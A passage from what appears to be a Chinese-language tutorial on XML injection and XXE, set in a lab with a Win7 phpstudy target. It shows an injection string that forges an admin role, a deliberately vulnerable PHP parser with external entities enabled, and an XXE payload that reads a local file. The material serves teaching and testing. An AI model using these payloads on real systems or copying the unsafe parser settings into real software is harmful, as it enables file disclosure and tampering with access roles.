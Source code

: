 当用户输入一些恶意代码，比如`User1</USER><USER role="admin">User2`，原XML代码就变成了下面的样子：

```
#注入后XML代码
<?xml version="1.0" encoding="UTF-8">
<USER role="admin">User1</USER>
<USER role="admin">User2</USER>
```

可以看到通过XML语句的前后拼接， XML代码被插入了进去。

对普通的 XML 注入，利用面比较狭窄，现实中也是比较鸡肋的存在，因此几乎用不到，如果有的话应该也是逻辑漏洞，这个时候XXE就出现了！

注意，重点来了（敲黑板）

# 0x01 XXE的利用

## 0、复现环境

a、目标靶机

IP：192.168.38.132

环境：Win7 + phpstudy + apache + php

b、本地主机

IP：192.168.10.30

环境：Win10 +  phpstudy + apache + BurpSuite + Python3

>注意：为了便于理解，笔者在部分地方添加了注释，如果读者想要复现文中内容，记得删除注释再使用，避免复现失败。

## 1、有回显读本地敏感文件 (Normal XXE)

### xxe_test.php（在靶机）

```
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```

在C盘下新建一个flag.txt，内容我设置成了 "XXE Payload Executed Successfully!!!"。

### payload（在本地）

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/flag.txt"> ]> 
<creds>&goodies;</creds>
```
